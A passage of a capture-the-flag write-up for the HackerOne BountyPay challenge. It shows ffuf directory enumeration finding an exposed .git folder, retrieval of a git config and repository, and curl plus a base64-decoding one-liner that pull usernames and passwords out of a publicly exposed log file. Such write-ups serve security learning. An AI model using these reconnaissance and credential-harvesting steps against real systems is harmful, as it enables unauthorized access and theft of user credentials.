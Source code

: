 ```bash
app.bountypay.h1ctf.com
www.bountypay.h1ctf.com
bountypay.h1ctf.com
software.bountypay.h1ctf.com
staff.bountypay.h1ctf.com
api.bountypay.h1ctf.com
```

  - Directories/files enumeration with [ffuf](https://github.com/ffuf/ffuf) and [SecLists](https://github.com/danielmiessler/SecLists) which found a `.git/HEAD` file in app.bountypay.h1ctf.com.
  
```
ffuf -w ./SecLists/Discovery/Web-Content/common.txt -u "https://app.bountypay.h1ctf.com/FUZZ" -ac
```
{F859753}

In short, that means that we may be able to retrieve more information about the code in this application and maybe find some holes.
To retrieve more information about the Git configuration, I opened `https://app.bountypay.h1ctf.com/.git/config` in my browser and it downloaded the Git configuration file to my machine.
In the configuration file, there was the URL of the repository:
{F859755}
Once you enter the [Git repository on GitHub](https://github.com/bounty-pay-code/request-logger.git) you'll find a `logger.php` file with the following code:
{F859757}

I began to think about injection attacks, but it soon became irrelevant since I saw that the payload is being base64 encoded before saved to the log file and therefore I thought - maybe this log file exists in app.bountypay.h1ctf.com? The answer was yes.

## Finding Credentials

In the log file I was able to find base64 encoded strings:
```bash
$ curl https://app.bountypay.h1ctf.com/bp_web_trace.log
1588931909:eyJJUCI6IjE5Mi4xNjguMS4xIiwiVVJJIjoiXC8iLCJNRVRIT0QiOiJHRVQiLCJQQVJBTVMiOnsiR0VUIjpbXSwiUE9TVCI6W119fQ==
1588931919:eyJJUCI6IjE5Mi4xNjguMS4xIiwiVVJJIjoiXC8iLCJNRVRIT0QiOiJQT1NUIiwiUEFSQU1TIjp7IkdFVCI6W10sIlBPU1QiOnsidXNlcm5hbWUiOiJicmlhbi5vbGl2ZXIiLCJwYXNzd29yZCI6IlY3aDBpbnpYIn19fQ==
1588931928:eyJJUCI6IjE5Mi4xNjguMS4xIiwiVVJJIjoiXC8iLCJNRVRIT0QiOiJQT1NUIiwiUEFSQU1TIjp7IkdFVCI6W10sIlBPU1QiOnsidXNlcm5hbWUiOiJicmlhbi5vbGl2ZXIiLCJwYXNzd29yZCI6IlY3aDBpbnpYIiwiY2hhbGxlbmdlX2Fuc3dlciI6ImJEODNKazI3ZFEifX19
1588931945:eyJJUCI6IjE5Mi4xNjguMS4xIiwiVVJJIjoiXC9zdGF0ZW1lbnRzIiwiTUVUSE9EIjoiR0VUIiwiUEFSQU1TIjp7IkdFVCI6eyJtb250aCI6IjA0IiwieWVhciI6IjIwMjAifSwiUE9TVCI6W119fQ==
```

To make it easier to work with, I used the following Bash 1-liner which prints only the base64 **decoded** payload:
```bash
$ curl -s https://app.bountypay.h1ctf.com/bp_web_trace.log | awk -F ':' '{print $2}' | while read line; do echo "$line" | base64 --decode && echo "\n"; done
{"IP":"192.168.1.1","URI":"\/","METHOD":"GET","PARAMS":{"GET":[],"POST":[]}}

{"IP":"192.168.1.1","URI":"\/","METHOD":"POST","PARAMS":{"GET":[],"POST":{"username":"brian.oliver","password":"V7h0inzX"}}}

{"IP":"192.168.1.1","URI":"\/","METHOD":"POST","PARAMS":{"GET":[],"POST":{"username":"brian.oliver","password":"V7h0inzX","challenge_answer":"bD83Jk27dQ"}}}

{"IP":"192.168.1.1","URI":"\/statements","METHOD":"GET","PARAMS":{"GET":{"month":"04","year":"2020"},"POST":[]}}
```
